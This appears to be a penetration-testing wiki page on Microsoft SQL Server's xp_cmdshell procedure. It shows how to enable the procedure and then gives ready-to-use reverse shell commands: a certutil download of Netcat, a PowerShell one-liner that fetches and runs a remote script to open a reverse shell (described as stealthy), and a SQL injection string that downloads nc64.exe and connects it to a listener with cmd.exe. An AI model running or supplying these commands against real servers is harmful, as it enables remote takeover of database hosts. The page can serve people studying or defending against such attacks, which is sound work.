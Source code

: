 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# xp\_cmdshell

`xp_cmdshell` is an extended stored procedure provided by Microsoft SQL Server that allows system administrators to execute operating system commands directly from within an SQL query. It is disabled by default due to its powerful and potentially dangerous capabilities, but if enabled, it can be leveraged to execute arbitrary commands on the server's operating system.

To use `xp_cmdshell` for executing operating system commands, an attacker or a privileged user must first ensure it is enabled. Here’s a brief outline of how it can be enabled and used:

1.  **Enable `xp_cmdshell`:**

    ```sql
    -- Enable advanced options
    EXEC sp_configure 'show advanced options', 1;
    RECONFIGURE;
    -- Enable xp_cmdshell
    EXEC sp_configure 'xp_cmdshell', 1;
    RECONFIGURE;
    ```
2.  **Execute Commands:** Once enabled, you can execute commands directly from an SQL query:

    ```sql
    EXEC xp_cmdshell 'dir C:\\';  -- Lists directory contents of C:\
    ```

By enabling and using `xp_cmdshell`, users can perform file operations, access network information, and even connect to external systems from the SQL Server environment. However, because of its potential for misuse, it should be handled with extreme caution and ideally, its usage should be restricted and closely monitored.



#### Reverse Shell Examples

After enabling `xp_cmdshell`, you can download and execute Netcat on the target machine. Here are several examples illustrating this process:

**Example 1:**

Download and execute a Netcat executable:

```sql
EXEC xp_cmdshell "certutil -urlcache -f http://example.com/nc64.exe c:/windows/temp/nc64.exe";
```

**Example 2:**

Execute a PowerShell script to establish a reverse shell, which is generally more stealthy and effective:

```powershell
powershell.exe -c iex(iwr http://[IP]:[Port]/Invoke-PowerShellTcp.ps1 -UseBasicParsing); Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [Port]
```

This method leaves fewer traces and works most of the time.

**Example 3:**

Chain SQL and PowerShell commands to fetch and execute Netcat, facilitating a reverse shell connection:

```sql
';EXECUTE xp_cmdshell 'powershell "Invoke-WebRequest -Uri https://github.com/int0x33/nc.exe/raw/master/nc64.exe -OutFile C:/windows/temp/nc64.exe"';-- and ';EXECUTE xp_cmdshell 'C:\windows\temp\nc64.exe 192.168.1.2 4444 -e cmd.exe';--
```

These examples showcase various techniques for executing remote shells through SQL injection vulnerabilities, demonstrating the critical importance of securing SQL servers against unauthorized command execution.
